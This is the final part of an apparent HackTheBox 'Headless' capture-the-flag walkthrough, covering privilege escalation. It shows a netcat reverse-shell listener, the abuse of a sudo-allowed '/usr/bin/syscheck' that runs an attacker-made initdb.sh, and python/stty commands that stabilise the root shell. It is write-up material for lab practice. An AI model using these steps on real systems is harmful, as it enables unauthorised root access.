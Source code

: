 And provide the file the necessary permissions to execute using:
```bash
chmod +x initdb.sh
```

Now in order to recieve the shell, we will have to open another listener on the second shell port that we put in the payload.
```bash
sudo nc -lvnp {SHELL PORT}
```

Now to execute the attack, we just have to run the file by using:
```bash
sudo /usr/bin/syscheck
```

Let's check the listener if we got access? and VOILA, now we have access to the root shell, but we do notice that the shell is not stable, i.e the reverse shell is not at its fullest potential, we can make our shell stable by doing the following commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

in the above set of commands, we are executing a shell with the pty library in python then suspending the command temporarily, once we suspend we will again spawn the shell using stty that will assign I/O ports to the mentioned process completely in RAW mode and ignore the echo and finally telling linux to convert the current terminal to a **xterm** terminal which is the default type of terminal in linux.

You can read more on the process of <a herf="https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" target="_blank" rel="noopener">stabilizing a reverse shell here</a>.

We are now on the machine as root!
we can check this by quickly running the "whoami" command!

>> Congratulations, you have Pwned "Headless"!

Now, with just a bit of directory hunting, we can find the root flag on the machine!

<hr>

## STEP 3: Conclusion

With this we will conclude the attack on "Headless" by learning a lost of skill sets on this attack, let's be proud of ourselves for a second, as all the things that we lear'nt during this attack were:
- Reconnaissance
- Web Enumeration
- Directory Enumeration
- Cookie Stealing
- Exploiting using Burpsuite
- Reverse Shell
- Privilege Escalation
- Vulnerability Identification
- Execution Permission Abuse

Congrats again!

<hr>

Well that is all for this machine, it was fun typing out this walkthrough, I will be making more such posts about attacking different **HackTheBox** Machines soon, so stay tuned for those!